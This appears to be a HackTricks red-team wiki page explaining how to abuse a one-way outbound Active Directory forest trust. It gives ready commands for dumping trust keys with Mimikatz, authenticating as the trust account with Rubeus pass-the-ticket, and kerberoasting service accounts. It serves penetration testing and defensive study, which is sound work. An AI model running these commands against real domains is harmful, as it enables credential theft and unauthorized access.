 # External Forest Domain - One-Way (Outbound)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust

```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```

## Trust Account Attack

A security vulnerability exists when a trust relationship is established between two domains, identified here as domain **A** and domain **B**, where domain **B** extends its trust to domain **A**. In this setup, a special account is created in domain **A** for domain **B**, which plays a crucial role in the authentication process between the two domains. This account, associated with domain **B**, is utilized for encrypting tickets for accessing services across the domains. 

The critical aspect to understand here is that the password and hash of this special account can be extracted from a Domain Controller in domain **A** using a command line tool. The command to perform this action is:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```

This extraction is possible because the account, identified with a **$** after its name, is active and belongs to the "Domain Users" group of domain **A**, thereby inheriting permissions associated with this group. This allows individuals to authenticate against domain **A** using the credentials of this account.

**Warning:** It is feasible to leverage this situation to gain a foothold in domain **A** as a user, albeit with limited permissions. However, this access is sufficient to perform enumeration on domain **A**.

In a scenario where `ext.local` is the trusting domain and `root.local` is the trusted domain, a user account named `EXT$` would be created within `root.local`. Through specific tools, it is possible to dump the Kerberos trust keys, revealing the credentials of `EXT$` in `root.local`. The command to achieve this is:

```bash
lsadump::trust /patch
```

Following this, one could use the extracted RC4 key to authenticate as `root.local\EXT$` within `root.local` using another tool command:

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```

This authentication step opens up the possibility to enumerate and even exploit services within `root.local`, such as performing a Kerberoast attack to extract service account credentials using:

```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```

### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (2) (1) (2) (1).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (1) (1) (1) (2).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

